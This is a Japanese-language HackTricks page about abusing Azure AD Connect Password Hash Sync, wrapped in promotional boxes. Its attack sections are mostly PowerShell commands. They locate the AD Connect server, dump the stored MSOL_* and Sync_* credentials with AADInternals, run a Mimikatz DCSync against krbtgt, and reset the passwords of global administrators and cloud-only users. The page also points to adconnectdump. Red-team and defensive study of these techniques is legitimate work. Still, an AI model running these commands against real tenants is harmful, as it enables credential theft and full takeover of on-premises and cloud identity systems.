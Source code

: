 # Az - PHS - パスワードハッシュ同期

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを発見する
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** または [Telegramグループ](https://t.me/peass) に **参加** または **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) を **フォロー** してください。
* **ハッキングトリックを共有するには** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出してください。

</details>

## 基本情報

[公式ドキュメントから：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **パスワードハッシュ同期** は、ハイブリッドアイデンティティを達成するために使用されるサインイン方法の1つです。 **Azure AD Connect** は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスにユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

これは企業がオンプレミスADをAzure ADと同期させるために最も一般的に使用される方法です。

すべての **ユーザー** と **パスワードハッシュのハッシュ** がオンプレミスからAzure ADに同期されます。ただし、**クリアテキストのパスワード** または **元のハッシュ** はAzure ADに送信されません。\
さらに、**ビルトイン** セキュリティグループ（ドメイン管理者など）はAzure ADに **同期されません**。

**ハッシュの同期** は **2分ごと** に行われます。ただし、デフォルトでは、Azure ADで **パスワードの有効期限** と **アカウントの有効期限** は **同期されません**。そのため、**オンプレミスのパスワードが期限切れ**（変更されていない）のユーザーでも、古いパスワードを使用して **Azureリソースにアクセス** を継続できます。

オンプレミスユーザーがAzureリソースにアクセスしようとすると、**認証はAzure ADで行われます**。

**PHS** は、**Identity Protection** や **AAD Domain Services** などの機能に必要です。

## ピボット

PHSが構成されると、いくつかの **特権アカウント** が自動的に **作成** されます:

* アカウント **`MSOL_<installationID>`** がオンプレミスADに自動的に作成されます。このアカウントには **Directory Synchronization Accounts** 役割が付与されます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）これは、オンプレミスADで **レプリケーション（DCSync）権限を持っている** ことを意味します。
* Azure ADには **`Sync_<name of on-prem ADConnect Server>_installationID`** というアカウントが作成されます。このアカウントは、Azure ADで **任意のユーザーのパスワードをリセット** できます（同期されたユーザーまたはクラウドのみ）。

前述の2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー** のSQLサーバーに **保存されています。** 管理者はこれらの特権ユーザーのパスワードをクリアテキストで抽出できます。\
データベースは `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` にあります。

これらの特権ユーザーのパスワードを抽出することが可能で、そのうち1つは暗号化されているテーブルから構成を抽出することができます:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**暗号化された構成** は **DPAPI** で暗号化されており、これには **オンプレミスADの `MSOL_*` ユーザーのパスワード** と **AzureADの Sync\_\* のパスワード** が含まれています。したがって、これらを侵害すると、ADおよびAzureADへの昇格が可能です。

これらの資格情報がどのように保存され、復号化されるかの詳細な概要については、[このトーク](https://www.youtube.com/watch?v=JEIR5oGCwdg) をご覧ください。

### **Azure AD Connectサーバー** を見つける

**Azure AD Connectがインストールされているサーバー** がドメインに参加している場合（ドキュメントで推奨されている）、次の方法で見つけることができます:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### MSOL\_\* の乱用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)を使用することもできます。
{% endhint %}

### Sync\_\*を悪用する

**`Sync_*`**アカウントを侵害すると、グローバル管理者を含む任意のユーザーのパスワードを**リセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
**クラウドのユーザーのパスワードを変更することも可能**です（予期しない場合でも）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別のオプションは、**Sync**ユーザーが**権限**を持っている**サービス プリンシパルに特権権限を割り当て**、そのサービス プリンシパルにアクセスして特権昇格を行う方法です。
{% endhint %}

### シームレス SSO

PHSを使用したシームレス SSOを使用することが可能で、他の悪用に対して脆弱です。次の場所で確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>!</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks の広告を掲載**したい場合や **HackTricks を PDF でダウンロード** したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式 PEASS & HackTricks スワッグ**](https://peass.creator-spring.com)を入手してください
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つけてください
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) をフォローしてください
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) の GitHub リポジトリに PR を提出して、あなたのハッキングトリックを共有してください

</details>
